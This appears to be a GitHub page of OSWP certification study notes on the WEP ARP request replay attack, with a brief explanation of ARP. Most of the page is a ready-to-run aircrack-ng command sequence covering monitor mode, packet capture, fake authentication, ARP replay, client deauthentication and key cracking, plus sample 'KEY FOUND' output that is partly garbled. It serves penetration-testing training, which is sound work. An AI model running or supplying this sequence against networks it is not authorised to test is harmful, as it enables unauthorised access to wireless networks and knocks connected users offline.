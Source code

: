 # OSWP - ARP Request Replay Attack (Attacking the AP/Connected) (WEP)

The classic ARP request replay attack is the most effective way to generate new initialization vectors (IVs), and works very reliably. The program listens for an ARP packet then retransmits it back to the access point. This, in turn, causes the access point to repeat the ARP packet with a new IV. The program retransmits the same ARP packet over and over. However, each ARP packet repeated by the access point has a new IVs. It is all these new IVs which allow you to determine the WEP key.

ARP is address resolution protocol: A TCP/IP protocol used to convert an IP address into a physical address, such as an Ethernet address. A host wishing to obtain a physical address broadcasts an ARP request onto the TCP/IP network. The host on the network that has the address in the request then replies with its physical hardware address.

## Commands

* Run [setup](../../setup.md) first
* Up to three terminals are needed, so `screen` is your friend
* At least one client must be associated with the AP

```bash
# [Terminal One]
# Set interface to monitor mode
sudo airmon-ng start $ADAPTER $CHANNEL

# Start monitoring - make terminal large enough to see everything
sudo airodump-ng -c $CHANNEL --bssid $BSSID -w $TAG $INTERFACE

# [Terminal Two]
# Run the fake authentication attack first
sudo aireplay-ng --fakeauth 0 -a $BSSID -e $SSID -h $INTERFACEMAC $INTERFACE

# Run the ARP replay attack
sudo aireplay-ng --arpreplay -b $BSSID -h $INTERFACEMAC $INTERFACE

# Watch for the data to rapidly increase in the aireplay-ng window
# To speed things up, do the next step - deauthentication attack

# [Terminal Three]
# Run the deauthentication attack (to help facilitate ARP packets for IVs)
sudo aireplay-ng --deauth 7 -a $BSSID -c $CLIENT $INTERFACE

# Get lots and lots of IVs (several minutes > 150K data ... mileage may vary though)
# Stop everything

# Crack the WEP keister (ensure that plenty of IVs are captured beforehand)
sudo aircrack-ng -0 $PCAP
```
* Look for the suscessful output - assuming enough IVs are available

```
1 potential targets                                 Got 156299 out of 155000 IVsStarting PTW attack with 156299 ivs.
                     KEY FOUND! [ AA:BB:CC:DD:EE:FF ] (ASCII: 12345 )
Attack wDecrypted correctly: 100%00 captured ivs.
```

## References

* [Airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng)
* [Aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)
* [ARP Request Replay](https://www.aircrack-ng.org/doku.php?id=arp-request_reinjection)
* [REdBlueTeam](https://youtu.be/_9qJ1Urpn0Y?t=2615)
